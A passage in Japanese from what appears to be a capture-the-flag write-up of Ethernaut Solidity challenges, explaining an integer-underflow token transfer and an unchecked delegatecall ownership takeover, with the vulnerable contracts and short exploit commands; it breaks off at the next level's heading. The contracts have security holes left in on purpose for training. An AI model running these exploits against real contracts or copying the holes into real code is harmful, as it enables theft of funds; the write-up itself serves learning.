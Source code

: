`_value > balances[msg.sender]` のときに、アンダーフローが発生してしまう。
初期状態で `balances[player]` に20 weiチャージされていたので、21 weiをtransfer
すればアンダーフローが発生する。

```solidity
await contract.transfer(player, 21)
```

## 4. Delegation

```solidity
contract Delegate {

  address public owner;

  function Delegate(address _owner) {
    owner = _owner;
  }

  function pwn() {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
}
```

Fallbackメソッドで、`msg.data` の中身をチェックせずにdelegatecallしている。
Delegatecallというのは、別コントラクトのメソッドを、呼び出し元コントラクトの
コンテキストで呼び出す仕組み。つまり、呼び出し先で、呼び出し元のストレージを
読み書きすることができる。
この場合においては、 `Delegate.pwn()` をdelegatecallすれば、 `Delegation` コン
トラクトを `owner` を上書きできる。

```solidity
await contract.sendTransaction({data: web3.sha3("pwn()").substring(0, 10)})
```

## 5. Force
